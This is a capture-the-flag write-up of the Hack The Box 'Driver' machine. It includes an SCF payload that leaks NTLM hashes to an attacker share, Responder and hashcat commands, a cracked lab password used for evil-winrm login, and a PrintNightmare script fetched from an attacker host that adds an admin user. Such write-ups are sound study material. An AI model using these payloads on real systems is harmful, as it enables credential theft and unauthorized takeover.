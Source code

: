 ```yaml
---
title: "Driver Hackthebox writeup"
header:
  teaser: "/assets/images/Driver/20220226105919.png"
tags: ["Hackthebox", "print nigthmare", "scf attacks", "evil-winrm"]
categories:
  - Windows Machines
ribbon: green
date: 2022-02-25T00:45:08+02:00
toc: true
draft: false
---
```


In this Box, we are going to abuse the ability of uploading the firmware of a shared printer and capture
the NTLMv2 hash of a user on this machine. By cracking the hash there is nothing that can stop us from logging in
except the smb shares aren't accessible so we will use evil-winrm to get the initial access, for the Administrator part we will make use of the vulnerable service "spooler" and add a user in the administrator group.

<!--more-->

## Scanning :

```bash
nmap -T 4 -A -sV 10.10.11.106  -oN nmap_intial.txt
```

output :

```bash
PORT    STATE SERVICE      VERSION
80/tcp  open  http         Microsoft IIS httpd 10.0
| http-auth:
| HTTP/1.1 401 Unauthorized\x0D
|_  Basic realm=MFP Firmware Update Center. Please enter password for admin
| http-methods:
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: Site doesn\'t have a title (text/html; charset=UTF-8).

135/tcp open  msrpc        Microsoft Windows RPC
445/tcp open  microsoft-ds Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
Service Info: Host: DRIVER; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 7h17m43s, deviation: 0s, median: 7h17m43s
| smb-security-mode:
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode:
|   2.02:
|_    Message signing enabled but not required
```

we can also run full port scan and will get :

```bash
PORT     STATE SERVICE
80/tcp   open  http
135/tcp  open  msrpc
445/tcp  open  microsoft-ds
5985/tcp open  wsman
```

we have this port **5985** open , which we may utilize later [check](https://hacktricks.boitatech.com.br/pentesting/5985-5986-pentesting-winrm).

## Enumeration:

we can start by visiting the web page and it will ask us for a username:password for MFP firmware update center .

![image](/assets/images/Driver/20220226110700.png)

searching for MFP will find it stands for multi functioning printer , we can search for default credentials and find it is **"admin:admin"**

using them will login successfully :

![image](/assets/images/Driver/20220226111149.png)

- we can add "driver.htb" to the `/etc/hosts` and start fuzzing for any Vhosts but will find none.

- let's navigate around this site will find option Firmware Updates is working and asking for updating firmware

![image](/assets/images/Driver/20220226111320.png)

- we should now think about uploading some malicious file to gain a reverse shell , however it won't work.
- we can enumerate SMB that we have found earlier maybe will give us a lead
- ACCESS_DENIED from `smbclient -L //driver.htb`

- it seems SMB is running for the printer that is shared among the network

### SMB authentication :

- according to Microsoft Documentation :

```
NTLM and the older LAN Manager (LM) encryption are supported by Microsoft SMB Protocol. Both encryption methods use challenge-response authentication, where the server sends the client a random string and the client returns a computed response string that proves the client has sufficient credentials for access.
```

- so if the client (the target) tries to connect to us (attacker) the NTLM hash will be used to authenticate and then we can capture it with [Responder](https://github.com/lgandx/Responder) tool.

- and as the firmwares are checked when the file we upload is loaded at the reviewer file explorer or if he clicked it we can get the hash we need.

### Exploitation :

- searching for "smb share and printer firmware update exploit" will find this blog [here](https://pentestlab.blog/2017/12/13/smb-share-scf-file-attacks/)
- so creating the payload :

```cmd
[Shell]
Command=2
IconFile=\\<ip>\share\Mesbaha.ico
[Taskbar]
Command=ToggleDesktop
```

and name it as `"@hack.scf"` and before uploading it run Responder to capture the hash (hopefully):

```bash
sudo responder -I tun0 -rdwv
```

GREAT we have NTLMv2 hash now :

![image](/assets/images/Driver/20220226114609.png)

now we can try to crack it with hashcat :

```bash
hashcat -m 5600 tony_hash  /usr/share/wordlists/rockyou.txt
```

![image](/assets/images/Driver/20220226114733.png)

so we have username and password , now How can we login ?

## Foothold :

- Most of the **impacket** tools that takes username:password and try to login depends on SMB shares (i.e : `ADMIN$` and `C$`) and hence they are not accessible they won't work .
- Remember the port we have found in the full port scan ?
- reading the blog article i have mentioned above

```
If WinRM is enabled on the machine, it's trivial to remotely administer the machine from PowerShell. In fact, you can just drop in to a remote PowerShell session on the machine (as if you were using SSH!)
```

- and they mentioned tool : [evil-winrm](https://github.com/Hackplayers/evil-winrm) that can help us do this

```bash
./evil-winrm.rb -u tony -p liltony -i driver.htb
```

- and the user.txt is in tony's Desktop

![image](/assets/images/Driver/20220226115238.png)

## Privilege escalation :

- you can start uploading Winpeas and follow the output but i will try first some manual checks
- first we know this Box is about printers and drivers maybe we find some exploit that way

![image](/assets/images/Driver/20220226115603.png)

- in the Microsoft post is says we can run `Get-Service -Name Spooler ` to check if it is running , and it is running

![image](/assets/images/Driver/20220226115710.png)

- Hence the service is running indeed we can try to exploit it and see if it works , there is this great one [here](https://github.com/JohnHammond/CVE-2021-34527) that we can try
- we can try to upload it then it will add for us a new user in Administrator group
- from machine side we can download the script from our http server with :
- **note** make sure you are in a writable directory

```bash
Invoke-WebRequest -Uri http://10.10.16.4:8888/CVE-2021-34527.ps1 -OutFile CVE.ps1
```

- running the exploit :

```powershell
Import-Module .\CVE.ps1
Invoke-Nightmare -NewUser "0xMesbaha" -NewPassword "supersecretpassword123"
```

![image](/assets/images/Driver/20220226120617.png)

and our new user has been added we can try to login with "evil-winrm" as well :

![image](/assets/images/Driver/20220226120835.png)

and if we run `net user <user_added>` will find :

![image](/assets/images/Driver/20220226120902.png)

the root flag is at Administrator Desktop .

## Pwned
